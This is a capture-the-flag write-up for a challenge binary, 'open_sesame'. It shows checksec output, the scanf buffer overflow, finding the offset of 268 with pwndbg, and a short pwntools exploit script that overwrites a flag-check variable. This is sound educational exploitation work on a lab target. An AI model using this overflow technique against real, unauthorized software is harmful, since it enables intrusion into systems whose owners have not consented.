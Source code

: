 {: file="open_sesame.c" }

The protections of the file are
```bash
$ pwn checksec open_sesame
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
{: .nolineno }

The notable things are:
- There is a `flag()` function printing the flag if we give the password `OpenSesame!!!`
- After `caveCanOpen = no` there is no option to change it to `yes` before the check `if (caveCanOpen == no)`
- We have a buffer `inputPass` for 256 bytes, but `scanf("%s", inputPass);` will read past that if we give it more characters

Because of the `scanf` vulnerability here we can overflow the `caveCanOpen` variable to be something else than 0, and as long as the first bytes of our payload is the password `OpenSesame!!!` we will be able to print the flag (this works because the password-check only checks the first 13 bytes of our input instead of everything we give as input)

We start off by finding the offset to the `caveCanOpen` variable with pwndbg by breaking at the first if-check (which in assembly is `cmp dword ptr [rbp - 4], 0`) and check the value of the variable after we have supplied a long enough cyclic pattern
![caveCanOpen pwndbg](open_sesame_breakpoint.png)
![Breakpoint](open_sesame_breaking.png)
![Finding the offset](open_sesame_offset.png)

Knowing the offset to the variable, and that the first part of our input have to be the password, we get a payload consisting of
- OpenSesame!!!
- padding (268 - len(OpenSesame!!!))
- 1 (any number instead of 0 would work here)

Knowing the payload, we get the following exploit script (template is generated with pwntools `pwn template ./<binary> --quiet > exploit.py`, with the following exploit script not showing the template code (only the actual exploit) )

```python
password = b"OpenSesame!!!"
variable_offset = 268

io = start()
io.recvuntil(b"cave?")

payload = password
payload = payload.ljust(variable_offset, b"A")
payload += pack(0x1)

io.sendline(payload)
io.interactive()
```
{: .nolineno file="exploit.py" }
